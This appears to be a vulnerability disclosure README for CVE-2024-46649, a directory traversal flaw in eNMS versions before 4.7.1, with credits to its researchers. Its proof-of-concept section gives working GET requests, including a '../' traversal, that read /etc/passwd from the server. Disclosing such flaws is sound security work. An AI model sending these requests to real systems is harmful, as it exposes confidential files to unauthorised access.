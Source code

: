 # **CVE-2024-46649**


# Details
* **Vulnerability Type**: eNMS < 4.7.1 Directory Traversal via /download/folder 
* **Affected Application**: eNMS
* **Affected Versions**: < 4.7.1
* **Affected Component**: /download/folder/[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```GET /download/folder/>[DIR]/>[FILE]```

**v4.4.0**
```
GET /download/folder/>etc/>passwd
```
**v4.7.1**
```
GET /download/folder/file_transfer/../../../../etc/passwd
```
# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46649 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46649 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">

